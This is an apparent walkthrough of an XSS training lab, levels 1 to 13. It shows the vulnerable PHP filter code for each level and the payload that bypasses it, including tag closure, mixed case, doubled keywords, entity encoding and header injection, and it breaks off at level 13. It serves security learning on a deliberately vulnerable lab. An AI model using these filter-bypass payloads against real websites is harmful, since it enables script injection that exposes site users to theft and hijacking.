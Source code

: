 XSS Challenge - WalkThrough
disclaimer
This document is for learning and research purposes only. Please do not use the technical source code in this document for illegal purposes. Any negative impact caused by anyone has nothing to do with me.

knowledge points

Unfiltered XSS (level 1)
Constructing closed XSS at various levels of difficulty (level 2, 3, 4, 5, 6)
Bypass filtering XSS of various difficulties (level 2, 3, 4, 5, 6)
Double letter splicing XSS (level 7)
Entity encoding + HTML encoding XSS (level 8, 9)
XSS in input (level 10)
XSS in HTTP headers (level 11, 12, 13)
exif XSS (level 14)
angularjs XSS (level 15)
URL Encoding XSS (level 16)
XSS for embed tags (level 17, 18)
Flash XSS (level 19, 20)
level 1
No filtering, just use <script>alert(123)</script> directly

payload: http://<target IP>/level1.php?keyword=test<script>alert(123)</script>

level 2
images

Use "> to construct the closure of the input box

payload: test"><script>alert(123)</script>

level 3
Use ' to close

images

Construct input XSS, for example: <input value=xss onfocus=alert(1) autofocus>

payload: test'onmouseover='alert(1)' payload: test'onfocus='alert(1)' autofocus '

level 4
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
It is found that <, > are filtered, use " to close

Test it test"123

images

Construct input XSS, for example: <input value=xss onfocus=alert(1) autofocus>

payload: test "onfocus=alert(1) autofocus"

level 5
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script", "<scr_ipt", $str);
$str3=str_replace("on", "o_n", $str2);
This pass mainly filters <script and on

Use "> to close, then use an unfiltered payload <a href=javascript:alert(19)>M

payload: "><a href=javascript:alert(19)>M

level 6
$str = $_GET["keyword"];
$str2=str_replace("<script", "<scr_ipt", $str);
$str3=str_replace("on", "o_n", $str2);
$str4=str_replace("src", "sr_c", $str3);
$str5=str_replace("data", "da_ta", $str4);
$str6=str_replace("href", "hr_ef", $str5);
Like the previous level, there are more filters, href, data, and src are also filtered, but their case is not detected

Same, use "> to close, then use an unfiltered payload <ScRiPt>alert(123)</ScRiPt>

payload: "><ScRiPt>alert(123)</ScRiPt>

level 7
$str = strtolower( $_GET["keyword"]);
$str2=str_replace("script", "", $str);
$str3=str_replace("on", "", $str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href", "", $str5);
In this level, as long as keywords such as on, href, src, and script are detected, they will be filtered directly to empty

Close, and then double write, let him just construct the script

payload: "><scrscriptipt>alert("1")</scrscriptipt>

level 8
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script", "scr_ipt", $str);
$str3=str_replace("on", "o_n", $str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data", "da_ta", $str4);
$str6=str_replace("href", "hr_ef", $str5);
$str7=str_replace('"', '&quot', $str6);
<?php
  echo '<center><BR><a href="'.$str7.'">Friendly link</a></center>';
?>
The purpose of this level is to write the payload into the herf of <a>

Try to construct payload <a href=javascript:alert(1)>, where script will be converted to scr_ipt

Here you can number the r entity as &#114;, and then trigger HTML decoding to decode sc&#114;ipt into script

payload: javasc&#114;ipt:alert(1)

level 9
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script", "scr_ipt", $str);
$str3=str_replace("on", "o_n", $str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data", "da_ta", $str4);
$str6=str_replace("href", "hr_ef", $str5);
$str7=str_replace('"', '&quot', $str6);
if(false===strpos($str7,'http://'))
{
   echo '<center><BR><a href="Your link is illegal? Is there any!">Friendly link</a></center>';
         }
else
{
   echo '<center><BR><a href="'.$str7.'">Friendly link</a></center>';
}
Filtering is the same as the previous level, but judge whether there is http://

Test javascript:alert("http://"), encode its entity, and construct javasc&#114;ipt:alert(&#34;http://&#34;)

level 10
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">", "", $str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>No results found for ".htmlspecialchars($str).".</h2>".'<center>
<form id=search>
<input name="t_link" value="'.'" type="hidden">
<input name="t_history" value="'.'" type="hidden">
<input name="t_sort" value="'.$str33.'" type="hidden">
</form>
</center>';
There are 3 hidden input boxes on the page, among which t_sort is parameterized, directly modify the code on the front end to display it, enter the payload, and construct an input xss: <input value=xss onfocus=alert(1) autofocus>

payload: test"onfocus=alert(1) autofocus type="text"

level 11
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">", "", $str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>No results found for ".htmlspecialchars($str).".</h2>".'<center>
<form id=search>
<input name="t_link" value="'.'" type="hidden">
<input name="t_history" value="'.'" type="hidden">
<input name="t_sort" value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref" value="'.$str33.'" type="hidden">
</form>
</center>';
The value of t_ref here is the referer value of our visit to this webpage, directly capture the packet and modify the referer

payload: referer:test"onfocus=alert(1) autofocus type="text"

level 12
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">", "", $str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>No results found for ".htmlspecialchars($str).".</h2>".'<center>
<form id=search>
<input name="t_link" value="'.'" type="hidden">
<input name="t_history" value="'.'" type="hidden">
<input name="t_sort" value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua" value="'.$str33.'" type="hidden">
</form>
</center>';
Same as the previous question, this question is to judge HTTP_USER_AGENT, directly capture packets and modify HTTP_USER_AGENT

payload: HTTP_USER_AGENT:test"onfocus=alert(1) autofocus type="text"

level 13
setcookie("user", "call me maybe?"
